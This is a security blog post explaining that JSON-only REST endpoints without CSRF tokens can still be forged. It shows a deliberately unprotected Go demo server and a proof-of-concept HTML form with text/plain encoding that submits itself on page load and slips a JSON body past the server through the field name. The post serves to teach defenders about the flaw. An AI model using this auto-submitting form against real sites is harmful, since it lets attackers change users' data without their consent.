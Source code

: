 ```yaml
---
layout: post
title: "Posting JSON with an HTML Form"
category: Security
date: 2016-08-24
tags:
  - Hacks
  - Web Security
kramdown: true
---
```


A coworker and I were looking at an application today that, like so many other
modern web applications, offers a RESTful API with JSON being used for
serialization of requests/responses.  She noted that the application didn't
include any sort of CSRF token and didn't seem to use any of the headers
(X-Requested-With, Referer, Origin, etc.) as a "poor man's CSRF token", but
since it was posting JSON, was it really vulnerable to CSRF?  **Yes, yes,
definitely yes!**

Interestingly, this is reminiscent of many of the confusions between server and
browser that are described in Michal Zalewski's [The Tangled
Web](https://amzn.to/2QyTUaH).

The idea that the use of a particular encoding is a security boundary is, at
worst, a completely wrong notion of security, and at best, a stopgap until W3C,
browser vendors, or a clever attacker gets hold of your API.  Let's examine JSON
encoding as a protection against CSRF and demonstrate a mini-PoC.

### The Application

We have a basic application written in Go.  Authentication checking is elided
for post size, but this is *not* just an unauthenticated endpoint.

~~~ go
package main

import (
	"encoding/json"
	"fmt"
	"net/http"
)

type Secrets struct {
	Secret int
}

var storage Secrets

func handler(w http.ResponseWriter, r *http.Request) {
	if r.Method == "POST" {
		json.NewDecoder(r.Body).Decode(&storage)
	}
	fmt.Fprintf(w, "The secret is %d", storage.Secret)
}

func main() {
	http.HandleFunc("/", handler)
	http.ListenAndServe(":8080", nil)
}
~~~

As you can see, it basically serves a secret number that can be updated via
HTTP POST of a JSON object.  If we attempt a URL-encoded or multipart POST, the
JSON decoding fails miserably and the secret remains unchanged.  We must POST
JSON in order to get the secret value changed.

### Exploring Options

So let's explore our options here.  The site can locally use AJAX via the
XMLHTTPRequest API, but due to the [Same-Origin
Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy),
an attacker's site cannot use this.  For most CSRF, the way to get around this
is plain HTML forms, since form submission is not subject to the Same-Origin
Policy.  The W3C had a [draft specification for JSON
forms](https://www.w3.org/TR/html-json-forms/), but that has been abandoned
since late 2015, and isn't supported in any browsers.  There are probably some
techniques that can make use of Flash or other browser plugins (aren't there
always?) but it can even be done with basic forms, it just takes a little work.

### JSON in Forms

Normally, if we try to POST JSON as, say, a form value, it ends up being URL encoded,
not to mention including the field name.

~~~ html
<form method='POST'>
  <input name='json' value='{"foo": "bar"}'>
  <input type='submit'>
</form>
~~~

Results in a POST body of:

~~~
json=%7B%22foo%22%3A+%22bar%22%7D
~~~

Good luck decoding that as JSON!

Doing it as the form field name doesn't get any better.

~~~
%7B%22foo%22%3A+%22bar%22%7D=value
~~~

It turns out you can set the enctype of your form to `text/plain` and avoid the
URL encoding on the form data.  At this point, you'll get something like:

~~~
json={"foo": "bar"}
~~~

Unfortunately, we still have to contend with the form field name and the
separator (`=`).  This is a simple matter of splitting our payload across both
the field name and value, and sticking the equals sign in an unused field.  (Or
you can use it as part of your payload if you need one.)

### Putting it All Together

~~~ html
<body onload='document.forms[0].submit()'>
  <form method='POST' enctype='text/plain'>
    <input name='{"secret": 1337, "trash": "' value='"}'>
  </form>
</body>
~~~

This results in a request body of:

~~~
{"secret": 1337, "trash": "="}
~~~

This parses just fine and updates our secret!
